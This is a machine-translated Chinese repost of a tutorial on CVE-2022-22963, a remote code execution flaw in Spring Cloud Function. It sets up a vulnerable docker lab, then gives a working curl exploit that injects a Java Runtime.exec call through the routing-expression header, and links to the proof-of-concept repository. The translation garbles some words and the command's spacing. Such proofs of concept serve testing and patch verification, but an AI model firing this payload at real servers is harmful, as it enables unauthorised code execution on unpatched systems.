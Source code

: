 # CVE-2022-22963:PoC Spring Java Framework 0 天远程代码执行漏洞

> 原文：<https://kalilinuxtutorials.com/cve-2022-22963/>

[![](img/3583c8a8d06246bf313298f07ea15db2.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiAQDgEntDuPal05FKKW-I-Gb1K0FT3fzQYo2tE0-3j6ui6XTCeVuhvcdxjbxhdz4RjW61nSaEfjVgRrg-UTUEkFK_n0m5YNzTKwnpgC3rpwi0FaHyC6aEAWLtI8-ZJCK-phlYKTlsxv5zlyaxj4ADprZkP7lWHAOPlxnjCSiEK7sWMZBCrI7cS2og9/s728/download%20(2).png)

**CVE-2022-22963** 将运行易受攻击的 SpringBoot 应用程序运行此 docker 容器，将其暴露于端口 8080。示例:

**码头运行-it-d-p 8080:8080 bobcheat/springboot-public**

## 剥削

卷曲命令:

**curl-I-s-k-X $ ' POST '-H $ ' Host:192 . 168 . 1 . 2:8080 '-H $ ' spring . cloud . function . routing-expression:T(Java . lang . runtime)。getRuntime()。exec(\ " touch/tmp/test ")'–data-binary $ ' exploit _ POC ' $ ' http://192 . 168 . 1 . 2:8080/function router '**

或者使用 Burp 套件:

![](img/2c9b5b2be2567a14418f984d3f691d0d.png)[**Download**](https://github.com/darryk10/CVE-2022-22963)